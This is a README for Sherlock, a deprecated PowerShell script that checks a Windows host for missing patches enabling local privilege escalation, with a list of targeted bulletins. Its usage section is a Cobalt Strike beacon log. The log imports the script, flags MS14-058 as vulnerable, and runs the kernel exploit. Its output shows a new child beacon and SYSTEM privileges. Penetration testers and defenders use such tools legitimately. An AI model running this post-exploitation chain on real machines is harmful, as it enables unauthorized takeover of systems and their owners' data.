 > Deprecated.  Have a look at [Watson](https://github.com/rasta-mouse/Watson) instead.

# Sherlock

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

## Currently looks for:

* MS10-015 : User Mode to Ring (KiTrap0D)
* MS10-092 : Task Scheduler
* MS13-053 : NTUserMessageCall Win32k Kernel Pool Overflow
* MS13-081 : TrackPopupMenuEx Win32k NULL Page
* MS14-058 : TrackPopupMenu Win32k Null Pointer Dereference
* MS15-051 : ClientCopyImage Win32k
* MS15-078 : Font Driver Buffer Overflow
* MS16-016 : 'mrxdav.sys' WebDAV
* MS16-032 : Secondary Logon Handle
* MS16-034 : Windows Kernel-Mode Drivers EoP
* MS16-135 : Win32k Elevation of Privilege
* CVE-2017-7199 : Nessus Agent 6.6.2 - 6.10.3 Priv Esc

## Basic Usage:

```
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are Win7-x64\Rasta

beacon> powershell-import C:\Users\Rasta\Desktop\Sherlock.ps1
[*] Tasked beacon to import: C:\Users\Rasta\Desktop\Sherlock.ps1
[+] host called home, sent: 2960 bytes

beacon> powershell Find-MS14058
[*] Tasked beacon to run: Find-MS14058
[+] host called home, sent: 20 bytes
[+] received output:

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Appears Vulnerable

beacon> elevate ms14-058 smb
[*] Tasked beacon to elevate and spawn windows/beacon_smb/bind_pipe (127.0.0.1:1337)
[+] host called home, sent: 105015 bytes
[+] received output:
[*] Getting Windows version...
[*] Solving symbols...
[*] Requesting Kernel loaded modules...
[*] pZwQuerySystemInformation required length 51216
[*] Parsing SYSTEM_INFO...
[*] 173 Kernel modules found
[*] Checking module \SystemRoot\system32\ntoskrnl.exe
[*] Good! nt found as ntoskrnl.exe at 0x0264f000
[*] ntoskrnl.exe loaded in userspace at: 40000000
[*] pPsLookupProcessByProcessId in kernel: 0xFFFFF800029A21FC
[*] pPsReferencePrimaryToken in kernel: 0xFFFFF800029A59D0
[*] Registering class...
[*] Creating window...
[*] Allocating null page...
[*] Getting PtiCurrent...
[*] Good! dwThreadInfoPtr 0xFFFFF900C1E7B8B0
[*] Creating a fake structure at NULL...
[*] Triggering vulnerability...
[!] Executing payload...

[+] host called home, sent: 204885 bytes
[+] established link to child beacon: 192.168.56.105

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
```